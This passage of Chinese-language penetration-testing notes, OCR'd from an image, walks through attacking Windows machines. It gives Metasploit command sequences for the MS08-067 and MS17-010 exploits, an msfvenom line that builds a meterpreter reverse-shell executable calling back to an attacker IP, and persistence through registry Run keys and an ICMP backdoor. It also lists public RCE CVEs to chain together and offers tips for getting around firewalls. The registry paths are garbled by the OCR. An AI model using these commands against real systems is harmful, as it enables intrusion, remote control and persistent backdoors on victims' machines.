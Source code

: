 HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCurrentVersionRunOnce
HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCurrentVersionRunServices

### 2、漏洞攻击
ms08067
流程

use exploit/windows/smb/ms08_067_netapi

set payload windows/meterpreter/reverse_tcp

show options

set LHOST 127.0.0.1

set RHOST 127.0.0.1

show target

set target *

exploit

利用metasploit攻击（ms08_067_netapi），具体的攻击过程很简单，show options看一下就可以了，这里要说的是攻击过程中目标网络有防火墙限制，不让反弹连接，使用reverse_tcp不成功，可以尝试使用bind_tcp监听式的payload。

ms17010
msfvenom -p windows/meterpreter/reverse_tcp LHOST=你的IP LPORT=6666 -f exe > /var/www/html/6666.exe

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

show options

set LHOST 127.0.0.1

set RHOST 127.0.0.1

exploit

为了提高渗透效率，可以用一些ms17010的批量扫描工具，网上一堆，不过注意安全

公开漏洞搜集、组合利用
Drupal 7（8） - CVE-2018-7600（RCE）

PHPMailer 代码执行漏洞（CVE-2016-10033）

CVE-2018-4878 Flash（http://blog.51cto.com/chenxinjie/2093653）

CVE-2018-8174 “双杀”0day漏洞复现（https://www.freebuf.com/vuls/173727.html）

Tomcat远程代码执行漏洞（CVE-2017-12615）

### 3、木马控制
常见的木马技术：内存型木马、实体木马、shellcode木马，具体的技术都够仔细研究好久了，在这儿不详述，渗透过程中要针对特定环境进行最优选择。

### 4、持久化驻留
后门技术
ICMP后门，网上有公开的代码，主要利用了ICMP协议进行后门激活和命令执行，可绕过防火墙限制。
